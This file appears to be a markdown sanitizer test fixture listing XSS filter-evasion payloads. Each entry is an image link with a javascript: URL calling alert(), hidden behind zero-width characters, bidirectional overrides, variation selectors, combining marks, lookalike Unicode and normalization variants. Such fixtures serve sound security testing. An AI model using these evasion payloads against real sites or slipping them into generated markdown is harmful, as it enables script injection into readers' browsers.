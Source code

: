 # Boundary Character Attacks

## Characters at markdown processing boundaries
![](javascript:alert('xss')​)
![](javascript:alert('xss')‌)
![](javascript:alert('xss')‍)
![](javascript:alert('xss')﻿)

## Invisible separators in URLs
![](java​script:alert('zwsp'))
![](java‌script:alert('zwnj'))  
![](java‍script:alert('zwj'))
![](java﻿script:alert('bom'))

## Line separator characters in URLs
![](javascript:
alert('line-sep'))
![](javascript:alert('paragraph-sep'))

## High surrogate characters
![](𝒿𝒶𝓋𝒶𝓈𝒸𝓇𝒾𝓅𝓉:alert('high-surrogates'))
![](🅹🅰🆅🅰🆂🅲🆁🅸🅿🆃:alert('emoji-like'))

## Variation selectors
![](javascript︀:alert('vs1'))
![](javascript︁:alert('vs2'))
![](javascript︎:alert('vs15'))
![](javascript️:alert('vs16'))

## Combining characters
![](jav͏ascript:alert('combining'))
![](java͡script:alert('tie'))
![](javas̸cript:alert('strikethrough'))

## Bidirectional override combinations
![](‮tpircsavaj‬:alert('bidi'))
![](‭javascript:alert('embed')‬)

## Normalization form variations
![](javascript:alert('NFC'))
![](javascript:alert('NFD'))
![](javascript:alert('NFKC'))  
![](javascript:alert('NFKD'))